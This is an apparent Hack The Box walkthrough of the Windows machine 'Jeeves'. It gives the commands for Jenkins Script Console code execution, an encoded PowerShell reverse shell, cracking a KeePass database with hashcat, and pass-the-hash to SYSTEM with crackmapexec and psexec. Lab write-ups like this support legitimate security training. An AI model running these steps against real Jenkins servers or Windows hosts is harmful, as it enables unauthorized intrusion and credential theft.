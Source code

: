 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- **Key Techniques:**  
  1. Unauthenticated Jenkins RCE  
  2. Exfil KeePass DB via Jenkins workspace  
  3. Crack master‑password → extract NTLM hash  
  4. Pass‑the‑hash to get SYSTEM  
  5. Alternate Data Stream for root.txt  

---

## TL;DR 🚀
1. **Recon:**  
   - `nmap` → ports **80** (IIS), **50000** (Jetty), **445** (SMB)  
   - Web on 50000 → **/askjeeves** found with `gobuster` + DirBuster list  
2. **Jenkins RCE:**  
   - Navigate to `http://10.10.10.63:50000/askjeeves` → Jenkins UI, no auth  
   - Use **Script Console** or create a **Freestyle Job** to run `cmd.exe /c whoami`  
   - Replace with reverse‑shell payload → get `jeeves\kohsuke` shell  
3. **Initial Shell (kohsuke):**  
   - `type C:\Users\kohsuke\Desktop\user.txt` → user flag  
   - Find `CEH.kdbx` in `C:\Users\kohsuke\Documents`  
4. **Exfil & Crack KeePass:**  
   - Copy `CEH.kdbx` into Jenkins workspace → download  
   - `keepass2john CEH.kdbx > CEH.hash`  
   - `hashcat CEH.hash rockyou.txt` → **moonshine1**  
5. **Dump NTLM Hash:**  
   - `kpcli --kdb CEH.kdbx` → show “Backup stuff” entry:  
     ```
     LM: aad3b435…0000   NT: e0fb1fb8…fe00
     ```  
6. **Pass‑the‑Hash → SYSTEM:**  
   - `crackmapexec smb 10.10.10.63 -u Administrator -H aad3b435…:e0fb1fb8…` (Pwn3d!)  
   - `psexec.py -hashes aad3b435…:e0fb1fb8… Administrator@10.10.10.63 cmd.exe`  
7. **Root Flag via ADS:**  
   - On admin desktop: `dir /R hm.txt`  
   - Read hidden stream: `more < hm.txt:root.txt` → root flag  

---

## Essential Commands 🛠️

```bash
# 1. Find Jenkins (/askjeeves) on port 50000
gobuster dir -u http://10.10.10.63:50000/ \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x txt,php,html

# 2. Jenkins RCE via Script Console
# (e.g.) Groovy: println "cmd.exe /c whoami".execute().text

# 3. Reverse shell payload in a Freestyle Jenkins job
powershell -NoP -NonI -W Hidden -Exec Bypass \
  -EncodedCommand <base64-payload>

# 4. KeePass master-password cracking
keepass2john CEH.kdbx > CEH.hash
hashcat -m 13400 CEH.hash /usr/share/wordlists/rockyou.txt

# 5. Extract NTLM hash with kpcli
kpcli --kdb CEH.kdbx
  find .
  show -f <entry#>

# 6. Pass‑the‑hash to get SYSTEM
crackmapexec smb 10.10.10.63 \
  -u Administrator \
  -H aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00

# 7. Psexec shell
psexec.py -hashes aad3b435…:e0fb1fb8… \
  Administrator@10.10.10.63 cmd.exe

# 8. Read root.txt from ADS
dir /R hm.txt
more < hm.txt:root.txt
```

---

## Key Takeaways 🔑
- **Unauthenticated Jenkins** → immediate RCE via Script Console or build steps.  
- **Jenkins workspace** makes exfil—drop any file there and fetch over HTTP.  
- **KeePass DB** on user profile can leak high‑priv creds if master password is weak.  
- **Pass‑the‑hash** remains a powerful Windows attack when NTLM hashes are recovered.  
- **Alternate Data Streams (ADS)** hide files in plain sight—remember `dir /R`.  